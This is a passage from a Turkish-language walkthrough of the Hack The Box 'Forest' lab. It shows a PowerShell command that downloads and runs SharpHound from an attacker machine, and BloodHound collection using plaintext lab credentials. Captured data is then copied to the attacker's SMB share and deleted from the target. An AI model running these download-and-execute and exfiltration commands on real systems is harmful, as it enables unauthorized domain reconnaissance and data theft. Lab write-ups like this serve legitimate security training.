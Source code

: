 
1. **SharpHound.ps1 dosyasının indirilmesi**:
    
    - İlk olarak, `iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")` komutu ile SharpHound.ps1 dosyası indiriliyor. Bu komut, hedef sistemde PowerShell aracılığıyla bir web sunucusundan `SharpHound.ps1` dosyasını indirir ve çalıştırır.
2. **Invoke-BloodHound ile çalıştırılması**:
    
    - Daha sonra `invoke-bloodhound` komutu ile SharpHound'u çalıştırıyor. Burada birkaç parametre bulunmaktadır:
        - `-collectionmethod all`: Tüm koleksiyon yöntemlerini kullanarak (örneğin: kullanıcılar, gruplar, yetkilendirme ilişkileri) veri toplar.
        - `-domain htb.local`: Hedef Active Directory alanı.
        - `-ldapuser svc-alfresco`: LDAP kullanıcı adı.
        - `-ldappass s3rvice`: LDAP şifresi.

Bu iki komut arasındaki fark, biri SharpHound.ps1 dosyasını indirip çalıştırırken, diğeri topladığı verileri BloodHound'a aktarmak içindir. SharpHound, Active Directory (AD) yapılandırmalarını analiz eder ve daha sonra bu topladığı verileri BloodHound'a entegre eder. BloodHound, toplanan bu verileri görselleştirir ve güvenlik açıklarını ortaya çıkarır.

---

Sonuçları exfil etmek için `smbserver.py` kullanacağım. Benim kutumda:

```
root@kali# smbserver.py share . -smb2support -username df -password df
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed                                   
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                                   
[*] Config file parsed                                   
[*] Config file parsed     
```


Şimdi Forest'ta:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use \\10.10.14.6\share /u:df df
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20191018035324_BloodHound.zip \\10.10.14.6\share\

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> del 20191018035324_BloodHound.zip   

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use /d \\10.10.14.6\share
\\10.10.14.6\share was deleted successfully.
```


#### Load Data

Bloodhound'un kurulumunu [Reel](https://0xdf.gitlab.io/2018/11/10/htb-reel.html#bloodhound) yazımda anlatmıştım. Verileri yüklemek için
